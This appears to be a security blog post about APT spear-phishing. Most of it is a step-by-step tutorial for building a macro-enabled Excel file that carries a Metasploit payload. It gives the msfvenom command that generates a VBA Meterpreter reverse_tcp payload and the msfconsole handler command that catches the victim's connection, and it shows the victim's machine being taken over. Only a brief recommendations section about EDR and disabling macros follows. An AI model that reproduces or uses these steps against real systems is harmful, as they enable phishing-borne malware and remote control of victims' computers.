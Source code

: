 ![](https://miro.medium.com/max/1400/0*iwl-kGvpEXgGJgj6.jpg)

In recent years, a new technique has been discovered by threat researchers that are being used by various APTs such as FIN7, BlackEnergy and APT37.

## What is an APT?

An advanced persistent threat (APT) is a prolonged, targeted cyberattack in which an attacker gains access to a network and remains undetected for an extended period of time. APT attacks are initiated to steal data rather than damage the target organization’s network.

## What is Spear phishing?

Spear phishing is a type of phishing campaign that targets a specific person or group and usually includes information known to be of interest to the target, such as current events or financial documents.

## How is the attack done?

The technique takes advantage of a feature in Office 365 that allows execution of Visual Basic for Applications (VBA) code through macros. This technique can be applied to Word, Excel, PowerPoint and other files. The attacks take place through a malicious campaign, using the spear phishing attack.

Attacks are typically done via email, where a malicious group sends a large scale of messages to every email address collected about a corporation. Attached to these emails, there is a file that contains malicious VBA code, it can be a spreadsheet or even slides. After a user opens the file, he will receive an alert to allow the macro to be activated, if he allows, the code execution will be successful, infecting the user’s computer.

## Creating a Malicious Spreadsheet

Let’s start by creating a Microsoft Excel spreadsheet and let’s open it.

![](https://miro.medium.com/max/640/1*T_brEIgAbDJVkNgkqVrHtw.png)

To create the macro, go to View > Macros > View Macros.

![](https://miro.medium.com/max/828/1*7I2PbzA1eRqG82zfyc-snQ.png)

Afterwards, type a name for the macro and click create.

![](https://miro.medium.com/max/640/1*loX4KRx5O5aQwar7DTX19A.png)

![](https://miro.medium.com/max/828/1*nz5VMhtvd_hH2rD4wshwUA.png)

Now we need to create the VBA malicious code, for that I will use the metasploit tool to generate and do all the communication between the attacker’s and the victim’s machine.

Let’s generate a VBA payload:

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP/HOST> LPORT=<PORT> -f vba
```

![](https://miro.medium.com/max/828/1*1UuMyy3Kxv8FjHkkVgPmgA.png)

After the payload has been generated, copy and paste it into the macro module.

![](https://miro.medium.com/max/828/1*P8b9eBK0ZzUuX8SPipLV9w.png)

After placing the payload, save the file by clicking on the icon above in the right corner.

![](https://miro.medium.com/max/828/1*T76D0oThgn_dbjmAuFUhKw.png)

When you get a message box, click no button and select excel format with macro support and save the file.

![](https://miro.medium.com/max/828/1*AcqgLSeGyhqj3y-uxdTOVw.png)

![](https://miro.medium.com/max/828/1*7CcaSwTBczqwfgc9OpjPMw.png)

When finished, close Microsoft Excel and notice the difference between the two files.

![](https://miro.medium.com/max/550/1*xQErf2fQSJ4bRJvn3ackGg.png)

On the attacker’s machine, start listening for metasploit with the following commands:

```
msfconsole -x "use exploit/multi/handler;set payload windows/x64/meterpreter/reverse_tcp;set lhost <IP/HOST>;set lport <PORT>;run"
```

After listening is enabled, open the malicious file and accept the risk of running the macro.

![](https://miro.medium.com/max/828/1*yI2fl4CnDtHV20H960_AOw.png)

![](https://miro.medium.com/max/828/1*VPqlcsIDWzvV_-jNF2PUhg.png)

The connection was made and the user’s machine was successfully taken over.

## Recommendations

To stop this problem, a good Endpoint Detection and Response (EDR) on the infrastructure is a great solution, as it will protect your network from any suspicious movement and will alert you. Also disable Office add-ins, to block any execution of macros injected into a file.

## Conclusion

This article demonstrates a new technique used by APTs around the world. It is important to note that these attacks often have messages telling you to allow the macro to run, as if it were something legitimate. The new technique was defined as Office Application Startup: Office Template Macros by MITER ATT&CK, with the persistence tactic, and the ID was identified as T1137.001.

## References

* https://attack.mitre.org/techniques/T1137/001/
* https://securelist.com/blackenergy-apt-attacks-in-ukraine-employ-spearphishing-with-word-documents/73440/
* https://digital.nhs.uk/cyber-alerts/2017/cc-1707
* https://www.malwarebytes.com/blog/news/2021/01/retrohunting-apt37-north-korean-apt-used-vba-self-decode-technique-to-inject-rokrat
